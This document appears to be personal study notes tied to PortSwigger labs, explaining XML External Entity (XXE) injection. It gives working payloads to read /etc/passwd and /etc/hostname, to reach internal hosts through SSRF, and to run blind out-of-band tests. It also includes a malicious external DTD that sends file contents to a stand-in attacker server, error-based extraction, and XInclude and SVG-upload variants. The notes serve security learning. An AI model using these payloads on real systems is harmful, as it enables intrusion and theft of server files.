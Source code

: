 allow an attack to interfere with an application's processing of XML data
	- can view files on the application server filesystem and interact with any back-end or external system that the application can access
- can XXE into SSRF
# XML Basics
- XML is a markup language designed for data storage and transport, featuring a flexible structure that allows for the use of descriptively named tags. It differs from HTML by not being limited to a set of predefined tags. XML's significance has declined with the rise of JSON, despite its initial role in AJAX technology.
	- **Data Representation through Entities**: Entities in XML enable the representation of data, including special characters like `&lt;` and `&gt;`, which correspond to `<` and `>` to avoid conflict with XML's tag system.
	- **Defining XML Elements**: XML allows for the definition of element types, outlining how elements should be structured and what content they may contain, ranging from any type of content to specific child elements.
	- **Document Type Definition (DTD)**: DTDs are crucial in XML for defining the document's structure and the types of data it can contain. They can be internal, external, or a combination, guiding how documents are formatted and validated.
	- **Custom and External Entities**: XML supports the creation of custom entities within a DTD for flexible data representation. External entities, defined with a URL, raise security concerns, particularly in the context of XML External Entity (XXE) attacks, which exploit the way XML parsers handle external data sources: `<!DOCTYPE foo [ <!ENTITY myentity "value" > ]>`
	- **XXE Detection with Parameter Entities**: For detecting XXE vulnerabilities, especially when conventional methods fail due to parser security measures, XML parameter entities can be utilized. These entities allow for out-of-band detection techniques, such as triggering DNS lookups or HTTP requests to a controlled domain, to confirm the vulnerability.
# Exploiting XXE To Retrieve Files 
- introduce or edit a `DOCTYPE` element that defines an external entity containing the path to the file
- or edit a data value in the XML that is returned in the application's response, to make use of the defined external entity
if given the following:
	```XML
	<?xml version="1.0" encoding="UTF-8"?>
	<stockCheck><productId>381</productId></stockCheck>
	```
modify as such:
	```XML 
	<?xml version="1.0" encoding="UTF-8"?>
	<!DOCTYPE foo [ <!ENTITY xxe SYSTEM "file:///etc/passwd"> ]>
	<stockCheck><productId>&xxe;</productId></stockCheck>
	```
Lab: [Exploiting XXE using external entities to retrieve files](../../../../writeups/portswigger/Exploiting%20XXE%20using%20external%20entities%20to%20retrieve%20files.md)
# Exploiting XXE To Perform SSRF
use the following:
	`<!DOCTYPE foo [ <!ENTITY xxe SYSTEM "http://internal.vulnerable-website.com/"> ]>`
then use the defined entity `xxe` within a data value
Lab: [Exploiting XXE to perform SSRF attacks](../../../../writeups/portswigger/Exploiting%20XXE%20to%20perform%20SSRF%20attacks.md)
# Blind XXE
- use OAST techniques
	- make a back-end request to a server you control
		`<!DOCTYPE foo [ <!ENTITY xxe SYSTEM "http://f2g9j7hhkax.web-attacker.com"> ]>`
Lab: [Blind XXE with out-of-band interaction](../../../../writeups/portswigger/Blind%20XXE%20with%20out-of-band%20interaction.md)
## Blind XXE Using Parameter Entities
- sometimes regular entities are not allowed due to input validation 
	- use parameter entities instead
	- declared with `%` before `ENTITY`
	- referenced with  `%` as well
		```XML
		<?xml version="1.0" encoding="UTF-8"?>
		<!DOCTYPE test [ <!ENTITY % xxe SYSTEM "http://gtd8nhwxylcik0mt2dgvpeapkgq7ew.burpcollaborator.net"> %xxe; ]>
		<stockCheck><productId>3;</productId><storeId>1</storeId></stockCheck>
		```
## Exploiting Blind XXE To Exfiltrate Data Out-Of-Band
- host a malicious DFD on your server that will be loaded in the vulnerable application, which will output sensitive contents and send it to the attacker server.
### Malicious DTD:
```xml
<!ENTITY % file SYSTEM "file:///etc/hostname">
<!ENTITY % eval "<!ENTITY &#x25; exfiltrate SYSTEM 'https://burp-collaborator-domain/?x=%file;'>">
%eval;
%exfiltrate;
```
The steps executed by this DTD include:
1. **Definition of Parameter Entities:**
    - An XML parameter entity, `%file`, is created, reading the content of the `/etc/hostname` file.
    - Another XML parameter entity, `%eval`, is defined. It dynamically declares a new XML parameter entity, `%exfiltrate`. The `%exfiltrate` entity is set to make an HTTP request to the collaborator or attacker's server, passing the content of the `%file` entity within the query string of the URL.
	    - `&#x25;` is the hexadecimal representation of `%` which is used to define `exfiltrate` parameter entity within `eval`
1. **Execution of Entities:**
    - The `%eval` entity is utilised, leading to the execution of the dynamic declaration of the `%exfiltrate` entity.
    - The `%exfiltrate` entity is then used, triggering an HTTP request to the specified URL with the file's contents
The attacker hosts this malicious DTD on a server under their control, typically at a URL like `http://web-attacker.com/malicious.dtd`.
### XXE Payload:
- To exploit a vulnerable application, the attacker sends an XXE payload:
	```
	<?xml version="1.0" encoding="UTF-8"?>
	<!DOCTYPE foo [<!ENTITY % xxe SYSTEM "http://web-attacker.com/malicious.dtd"> %xxe;]>
	<stockCheck><productId>3;</productId><storeId>1</storeId></stockCheck>
	```
- This payload defines an XML parameter entity `%xxe` and incorporates it within the DTD. When processed by an XML parser, this payload fetches the external DTD from the attacker's server. 
- The parser then interprets the DTD inline, executing the steps outlined in the malicious DTD and leading to the exfiltration of the `/etc/hostname` file to the attacker's server.
Lab: [Exploiting blind XXE to exfiltrate data using a malicious external DTD](../../../../writeups/portswigger/Exploiting%20blind%20XXE%20to%20exfiltrate%20data%20using%20a%20malicious%20external%20DTD.md)
## Exploiting Blind XXE To Retrieve Data Via Error Messages
- malicious DTD as follows:
		```xml
		<!ENTITY % file SYSTEM "file:///etc/passwd">
		<!ENTITY % eval "<!ENTITY &#x25; error SYSTEM 'file:///nonexistent/%file;'>">
		%eval;
		%error;
		```
1. An XML parameter entity named `file` is defined, which contains the contents of the `/etc/passwd` file.
2. An XML parameter entity named `eval` is defined, incorporating a dynamic declaration for another XML parameter entity named `error`. This `error` entity, when evaluated, attempts to load a nonexistent file, incorporating the contents of the `file` entity as its name.
3. The `eval` entity is invoked, leading to the dynamic declaration of the `error` entity.
4. Invocation of the `error` entity results in an attempt to load a nonexistent file, producing an error message that includes the contents of the `/etc/passwd` file as part of the file name.
The malicious DTD is invoked with the following:
	```
	<?xml version="1.0" encoding="UTF-8"?>
	<!DOCTYPE foo [<!ENTITY % xxe SYSTEM "http://web-attacker.com/malicious.dtd"> %xxe;]>
	<stockCheck><productId>3;</productId><storeId>1</storeId></stockCheck>
	```

Lab: [Exploiting blind XXE to retrieve data via error messages](../../../../writeups/portswigger/Exploiting%20blind%20XXE%20to%20retrieve%20data%20via%20error%20messages.md)
# Finding Hidden Attack Surface For XXE Injections
## `XInclude`
- when integrating client data into server-side XML documents, like those in backend SOAP requests, direct control over the XML structure is often limited, hindering traditional XXE attacks due to restrictions on modifying the `DOCTYPE` element
- `XInclude` attacks allow insertion of external entities within any data element of the XML document
- to execute, `XInclude` namespace and provide the path to the file that you wish to include
	```xml 
	productId=<foo xmlns:xi="http://www.w3.org/2001/XInclude"><xi:include parse="text" href="file:///etc/passwd"/></foo>&storeId=1
	```
Lab: [Exploiting XInclude to retrieve files](../../../../writeups/portswigger/Exploiting%20XInclude%20to%20retrieve%20files.md)
## File Uploads
- files uploaded by users which are then processed on the server, can exploit vulnerabilities in how XML or XML-containing file formats are handled
	- SVG or DOCX files 
		- SVG is a XML-based format - can be used to submit malicious SVG images
		```
			<svg xmlns="http://www.w3.org/2000/svg" xmlns:xlink="http://www.w3.org/1999/xlink" width="300" version="1.1" height="200"><image               xlink:href="file:///etc/hostname"></image></svg>
		```
OR 
	```
	<?xml version="1.0" standalone="yes"?><!DOCTYPE test [ <!ENTITY xxe SYSTEM "file:///etc/hostname" > ]><svg width="128px" height="128px" xmlns="http://www.w3.org/2000/svg" xmlns:xlink="http://www.w3.org/1999/xlink" version="1.1"><text font-size="16" x="0" y="16">&xxe;</text></svg>
	```
Latter is recommended. Paste this into a `.svg` file
Lab: [Exploiting XXE via image file upload](../../../../writeups/portswigger/Exploiting%20XXE%20via%20image%20file%20upload.md)